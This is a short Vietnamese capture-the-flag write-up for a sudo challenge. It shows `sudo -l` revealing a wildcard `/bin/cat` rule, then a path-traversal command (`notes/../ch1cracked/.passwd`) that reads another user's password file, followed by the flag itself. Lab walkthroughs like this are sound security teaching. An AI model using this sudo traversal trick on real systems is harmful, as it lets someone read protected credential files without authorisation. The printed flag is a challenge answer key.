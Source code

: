 # Solve

- Truy cập vào hệ thống và thấy cây thư mục như sau:
```bash
app-script-ch1@challenge02:~$ tree .
.
├── ch1cracked [error opening dir]
├── notes
│   └── shared_notes
└── readme.md

2 directories, 2 files
app-script-ch1@challenge02:~$
```
- Với quyền hiện tại thì chỉ có thể đọc được nội dung của file readme.md
- Vì tên bài có liên quan đến sudo, nên dùng câu lệnh `sudo -l` để check xem.

```bash
app-script-ch1@challenge02:~$ sudo -l
Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass, !mail_no_host, !mail_no_perms,
    !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*
app-script-ch1@challenge02:~$
```
- Vậy là có thể thực thi lệnh `/bin/cat /challenge/app-script/ch1/notes/*` với quyền của `app-script-ch1-cracked` để đọc được nội dung của tất cả các file trong thư mục notes.
- Ở đây, có thể tận dụng đường dẫn để nó có thể đọc được nội dung của file `.passwd` trong thư mục `ch1cracked` bằng payload như sau:
`sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd`
- Kết quả:
```bash
app-script-ch1@challenge02:~$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
b3_c4r3ful_w1th_sud0
app-script-ch1@challenge02:~$
```

### 🚩Flag: `b3_c4r3ful_w1th_sud0`